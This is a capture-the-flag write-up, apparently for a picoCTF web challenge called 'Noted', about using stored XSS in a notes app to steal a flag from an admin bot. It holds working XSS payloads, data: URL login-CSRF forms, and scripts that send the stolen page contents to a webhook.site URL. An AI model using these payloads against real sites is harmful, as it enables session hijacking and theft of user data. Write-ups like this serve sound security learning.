 # Noted

I very quickly saw that I can inject html in the notes. If you put `<script>alert("Hello")</script>` as the note content, it will give you the alert.

Looking at the source code, the report.js seems to be a bot. I am nut 100% sure how js bots work, but it seems ot create a random user with a random pass, and creates a note with the flag in it. The flag coes from an env variable `process.env.FLAG`. And then it opens the url we reposted. 

I neeed to inject some malaciour js in one of my notes, which when the bot will open, will somehow give me the flag. 

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Webhook Request</title>
</head>
<body>

<script>
  const flagValue = encodeURIComponent(process.env.FLAG);
  const webhookUrl = `https://webhook.site/4270872a-9750-4fd3-bfcb-40cc91a258d1/?t=${flagValue}`;

  // Redirect the browser to the webhook URL
  window.location.href = webhookUrl;
</script>

</body>
</html>
```

I uploaded this to 0x0.st, and sent it to the report url. It should have opened, and sent the flag to my webhook url, but it did not work. I guess the app does not have access to the internet, so webhooks and 0x0.st will not work.

I somehow have to get the bot to login into my account, and add the flag to my notes.


Create the following note. It creates a new note with the title as `window.open("", "pico").document.body.textContent`, this will be done only when we open the url with a `/?exploit`. This is done to prevent recursive note creation when we are

```
<form action="/new" method="POST" id="form">
	<input type="hidden" name="_csrf" value="feh6ty2J-pGJFYvUyRsVmiHJe0zQ37fomL_g">
	<input id="flagHere" type="text" name="title" placeholder="title">
	<br><br>
	<textarea name="content" cols="50" rows="10" placeholder="content"></textarea>
	<br><br>
	<input type="submit" value="Create">
</form>
<script>
if (window.location.search.includes("exploit")){
	var newWindow = window.open("", "pico")
	var bodyText = newWindow.document.body.textContent;
    window.open("http://0.0.0.0:8080/new", "pico");
	document.getElementById("flagHere").value = bodyText;
    setTimeout(function() {form.submit()}, 1000);
}
</script>
```

`data:text/html` is the workaround used to open html without using an external link. This will make the bot login to my admin account, and then open the notes with `?exploit`. This should create a note with the flag as the title.
```
data:text/html,
<form action="http://0.0.0.0:8080/login" method="POST" id="loginForm" target="_blank">
    <input type="text" name="username" value="admin">
    <input type="text" name="password" value="admin">
</form>

<script>
    const notesURL = "http://0.0.0.0:8080/notes";
    const exploitQueryParam = "exploit";

    window.open(notesURL, "pico");

    setTimeout(function() {
        document.getElementById("loginForm").submit();
    }, 1000);

    setTimeout(function() {
        window.location = notesURL + "?" + exploitQueryParam;
    }, 1000);
</script>
```

Running this we get...
`Only one browser can be open at a time!`

After that didnt work, I read that only the report options does not have acces to the internet, so I mignt be able to use webhooks when viewing notes. Here is that code.

Create a note with this as the content
```
<script>
  const searchString = "exploit";
  const webhookURL = "https://webhook.site/4270872a-9750-4fd3-bfcb-40cc91a258d1?";

  if (window.location.search.includes(searchString)) {
    const picoWindow = window.open("", "pico");
    const dataContent = picoWindow.document.body.textContent;
    window.location = webhookURL + dataContent;
  }
</script>
```

The report code remains almost the same
```
data:text/html,
<form action="http://0.0.0.0:8080/login" method="POST" id="loginForm" target="_blank">
    <input type="text" name="username" value="admin">
    <input type="text" name="password" value="admin">
</form>

<script>
    window.open("http://0.0.0.0:8080/notes", "pico");
    setTimeout(function() {document.getElementById("loginForm").submit();}, 1000);
    setTimeout(function() {window.location="http://0.0.0.0:8080/notes?exploit";}, 1000);
</script>
```

